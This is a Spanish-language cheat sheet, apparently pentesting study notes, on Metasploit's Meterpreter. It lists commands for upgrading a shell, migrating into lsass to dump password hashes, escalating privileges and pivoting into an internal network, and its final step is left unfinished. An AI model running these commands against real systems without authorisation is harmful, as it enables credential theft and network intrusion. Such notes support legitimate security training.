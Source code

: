 # Meterpreter

Tags: #Comandos #Meterpreter #Pivoting 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Convertir una Shell a Meterpreter

```bash 
# Debes de tener una sesion activa y en background en Metasploit 

❯ use post/multi/manage/shell_to_meterpreter
	❯ set session <ID>
	❯ run 

❯ sessions -l                # Miramos las sesiones activas, l (ele) = Listar 
❯ sessions -i <ID>           # Usar la sesion con Meterpreter
```

## Comandos con Meterpreter

```bash 
# Migrar a un proceso con mayores privilegios para tener un 'Meterpreter x64/Windows'

❯ hashdump                   # Te muestra todos los hashes de los usuarios, en dado caso que te salga este error 'Operation_failed: The parameter is incorrect', debemos de migrar a otro proceso.
	❯ pgrep lsass              # Mirar el numero del proceso 'lsass'  
	❯ migrate <ID>             # Nos migramos al proceso y asi poder mejorar la consola de Meterpreter, por lo que ahora podremos hacer el dumpeo de Hashes.  
```

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 


❯ sysinfo                    # Muestra informacion del Windows 
❯ getuid                     # Miramos el nombre del usuario 
❯ getprivs                   # Miramos los  procesos con privilegios 
❯ getsystem                  # Miras los procesos privilegiados 
❯ pgrep explorer             # Mirar el numero del proceso y asi poder escalar privilegios 
❯ search -f *.doc            # Buscar un archivo 

❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 
```

## Para hacer Pivoting con Metasploit

```bash 
❯ run arp_scanner -r IP.0/24              # Barrido ARP en la direccion IP 

1. Agregar la IP a la tabla de ruteo
❯ run autoroute -s IP.0/24                # Agregas la IP a la tabla de ruteo para alcanzar la nueva red

2. Te sales de la sesion y puedes ver la tabla de ruteo
❯ Ctrl + z                                # Poner en background la sesion
❯ route print                             # Mirar la tabla de ruteo 

3. Fuera de la sesion usas el scanner para ver los puertos de la maquina agregada
❯ use auxiliary/scanner/portscan/tcp      # Hacer escaneo con Nmap
	❯ options 
	❯ set ports 1-1000                # Escanearemos los primero 1000 puertos 
	❯ set rhosts <IP>                 # Colocamos la IP de la maquina a la que no llegabamos y ahora si por el Pivoting
	❯ run 

4. 
❯ netstat                  # 

❯ portfwd                  # 
```